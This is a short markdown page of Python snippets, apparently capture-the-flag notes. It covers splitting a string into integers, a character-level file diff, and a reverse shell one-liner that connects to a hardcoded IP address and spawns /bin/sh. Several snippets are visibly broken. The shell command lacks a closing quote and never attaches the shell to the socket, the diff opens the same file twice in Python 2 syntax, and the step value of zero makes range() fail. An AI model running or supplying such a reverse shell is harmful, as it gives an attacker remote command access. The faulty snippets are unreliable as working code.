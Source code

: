 # python
### change a string to a list of integers of _n_ length


```python
m ='some_string' # was an int
n = 0 # enter an integer
new_list = [int(m[i:i+n]) for i in range (0,len(m),n)]

# Useful for iterating over a str that was an int. Weird things happen if len(m) mod n != 0.

```
### diff tool... nice for diffing files of the same type in ctfs

```python
a = open("filename", "r").read()
b = open("filename", "r").read()

x = ''

for i,j in zip(a, b):
    if i != j:
        #x.append(i) if x needs to be a list
        x += i
        
print x

# Prints a string of differences. Pipe the output into sed to prettify if x is a list. Output may be a flag...

```
### Reverse Shell one-liner
```python
python -c "import pty,socket;h,p='192.168.200.1',12345;socket.create_connection((h,p));pty.spawn('/bin/sh');
```
